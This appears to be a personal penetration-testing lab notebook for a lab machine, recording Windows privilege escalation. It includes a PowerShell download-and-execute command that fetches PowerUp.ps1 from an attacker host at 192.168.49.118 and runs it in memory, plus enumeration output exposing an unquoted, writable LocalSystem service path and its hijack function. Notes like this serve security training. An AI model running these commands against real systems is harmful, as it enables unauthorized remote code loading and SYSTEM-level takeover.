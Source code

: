 
![[bob local.txt 1st flag AD set.png]]

- going to try to priv esc

- powerup.ps1 for priv esc, identify way forward
	- if a user is found get-acl in power up to see privileges


#powerup
- Ran powerUp and discovered unquoated service path in the 
	- C:\Program Files (x86)\TRIGONE\Remote System Monitor
```shell
echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:1337/PowerUp.ps1') | powershell -noprofile -


C:\Windows\Temp>echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:1337/PowerUp.ps1') | powershell -noprofile -
echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:1337/PowerUp.ps1') | powershell -noprofile -


ServiceName    : RemoteSystemMonitorService
Path           : C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'RemoteSystemMonitorService' -Path <HijackPath>
CanRestart     : False
Name           : RemoteSystemMonitorService
Check          : Unquoted Service Paths

ServiceName    : RemoteSystemMonitorService
Path           : C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'RemoteSystemMonitorService' -Path <HijackPath>
CanRestart     : False
Name           : RemoteSystemMonitorService
Check          : Unquoted Service Paths

ServiceName    : RemoteSystemMonitorService
Path           : C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\TRIGONE; IdentityReference=Everyone; 
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'RemoteSystemMonitorService' -Path <HijackPath>
CanRestart     : False
Name           : RemoteSystemMonitorService
Check          : Unquoted Service Paths

ServiceName    : RemoteSystemMonitorService
Path           : C:\Program Files (x86)\TRIGONE\Remote System Monitor Server\RemoteSystemMonitorService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\TRIGONE; IdentityReference=Everyone; 
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'RemoteSystemMonitorService' -Path <HijackPath>
CanRestart     : False
Name           : RemoteSystemMonitorService
```